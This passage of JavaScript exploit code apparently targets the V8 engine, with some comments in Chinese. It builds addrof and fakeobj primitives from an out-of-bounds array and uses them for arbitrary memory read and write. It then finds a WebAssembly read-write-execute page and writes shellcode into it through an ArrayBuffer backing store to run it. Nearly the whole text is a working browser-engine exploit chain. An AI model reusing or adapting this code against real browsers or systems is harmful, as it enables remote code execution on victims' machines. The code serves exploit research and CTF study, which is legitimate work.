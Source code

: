```
 
console.log("    oob_array.length: " + helper.hex(oob_array.length));
}
 
function addrof(obj) {
vuln_array[7] = obj;
 
return helper.f2i(oob_array[0]) & 0xFFFF_FFFFn;
}
 
function fakeobj(addr) {
oob_array[0] = helper.i2f(addr);
 
return vuln_array[7];
}
 
function get_arw() {
console.log("[+] get absolute read/write access......");
 
let oob_array_map_and_properties = helper.f2i(oob_array[3]);
point_array = [helper.i2f(oob_array_map_and_properties), 1.1, 1.2, 1.3];
fake = fakeobj(addrof(point_array) - 0x20n);
}
 
function arb_read(addr) {
if (addr %2n == 0) {
addr += 1n;
}
// 2n << 32n是为了填充length字段，在指针压缩下length的值会被改为0x1；
// -8n是因为elements字段指向的内容会自动+8来跳过map和length
point_array[1] = helper.i2f((2n << 32n) + addr -8n);
return fake[0];
}
 
function arb_write(addr, val) {
if (addr %2n == 0) {
addr += 1n;
}
// 2n << 32n是为了填充length字段，在指针压缩下length的值会被改为0x1；
// -8n是因为elements字段指向的内容会自动+8来跳过map和length
point_array[1] = helper.i2f((2n << 32n) + addr -8n);
fake[0] = helper.i2f(BigInt(val));
}
 
function get_wasm_rwx() {
console.log("[+] get address of rwx page......");
rwx_page_addr = helper.f2i(arb_read(addrof(wasm_instance) + 0x68n));
//%DebugPrint(wasm_instance);
//%DebugPrint(wasm_function);
console.log("    Address of rwx page: " + helper.hex(rwx_page_addr));
//%SystemBreak();
}
 
function run_shellcode(addr, shellcode) {
console.log("[+] run shellcode......");
let dataview = new DataView(arb_write_buffer);
let buf_addr = addrof(arb_write_buffer);
let backing_store_addr = buf_addr + 0x14n;
arb_write(backing_store_addr, addr);
for (let i = 0; i < shellcode.length; i++) {
dataview.setUint32(4*i, shellcode[i], true);
}
console.log("[+] success!!!");
```